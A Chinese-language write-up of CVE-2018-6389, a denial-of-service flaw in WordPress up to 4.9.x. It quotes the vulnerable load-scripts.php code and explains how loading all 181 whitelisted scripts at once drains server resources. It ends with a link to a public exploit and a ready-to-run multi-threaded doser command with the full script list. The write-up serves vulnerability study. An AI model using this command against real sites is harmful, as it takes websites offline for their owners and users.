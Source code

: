 （CVE-2018-6389）WordPress \<= 4.9.x 拒绝服务漏洞
=================================================

一、漏洞简介
------------

二、漏洞影响
------------

WordPress \<= 4.9.x

三、复现过程
------------

### 漏洞分析

在文件 WordPress/wp-admin/load-scripts.php 中：

    <?php
    ...//ignore
    $load = $_GET['load'];
    if ( is_array( $load ) ) {
        $load = implode( '', $load );
    }
    $load = preg_replace( '/[^a-z0-9,_-]+/i', '', $load );
    $load = array_unique( explode( ',', $load ) );
    ...//ignore
    foreach ( $load as $handle ) {
        if ( ! array_key_exists( $handle, $wp_scripts->registered ) ) {
            continue;
        }
        $path = ABSPATH . $wp_scripts->registered[ $handle ]->src;
        $out .= get_file( $path ) . "\n";
    }
    ...//ignore
    echo $out;
    exit;

load-scripts.php
文件会根据load参数传入的文件名依次载入文件并输出。同时程序对load参数的内容进行了过滤，只有在白名单\$wp\_scripts中的JS文件才会被载入。

该JS文件白名单的内容在文件 WordPress/wp-includes/script-loader.php 中：

    ...//ignore
        $scripts->add( 'wp-lists', "/wp-includes/js/wp-lists$suffix.js", array( 'wp-ajax-response', 'jquery-color' ), false, 1 );
        // WordPress no longer uses or bundles Prototype or script.aculo.us. These are now pulled from an external source.
        $scripts->add( 'prototype', 'https://ajax.googleapis.com/ajax/libs/prototype/1.7.1.0/prototype.js', array(), '1.7.1' );
        $scripts->add( 'scriptaculous-root', 'https://ajax.googleapis.com/ajax/libs/scriptaculous/1.9.0/scriptaculous.js', array( 'prototype' ), '1.9.0' );
        $scripts->add( 'scriptaculous-builder', 'https://ajax.googleapis.com/ajax/libs/scriptaculous/1.9.0/builder.js', array( 'scriptaculous-root' ), '1.9.0' );
        $scripts->add( 'scriptaculous-dragdrop', 'https://ajax.googleapis.com/ajax/libs/scriptaculous/1.9.0/dragdrop.js', array( 'scriptaculous-builder', 'scriptaculous-effects' ), '1.9.0' );
        ...//ignore
        $scripts->add( 'jquery-ui-sortable', "/wp-includes/js/jquery/ui/sortable$dev_suffix.js", array( 'jquery-ui-mouse' ), '1.11.4', 1 );
        $scripts->add( 'jquery-ui-spinner', "/wp-includes/js/jquery/ui/spinner$dev_suffix.js", array( 'jquery-ui-button' ), '1.11.4', 1 );
        $scripts->add( 'jquery-ui-tabs', "/wp-includes/js/jquery/ui/tabs$dev_suffix.js", array( 'jquery-ui-core', 'jquery-ui-widget' ), '1.11.4', 1 );
        $scripts->add( 'jquery-ui-tooltip', "/wp-includes/js/jquery/ui/tooltip$dev_suffix.js", array( 'jquery-ui-core', 'jquery-ui-widget', 'jquery-ui-position' ), '1.11.4', 1 );
        $scripts->add( 'jquery-ui-widget', "/wp-includes/js/jquery/ui/widget$dev_suffix.js", array( 'jquery' ), '1.11.4', 1 );
    ...//ignore

JS文件白名单中共有181个文件。如果我们请求 load-scripts.php
文件使其同时载入全部JS文件，PHP代码将要进行181次的读取操作。若同时发起多个载入全部JS文件的请求，这将极大地消耗服务器资源，即有可能导致网站无法正常响应其他用户的请求。

### 漏洞利用

<https://github.com/ianxtianxt/CVE-2018-6389>

    python doser.py -g 'http://0-sec.org/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 100

image
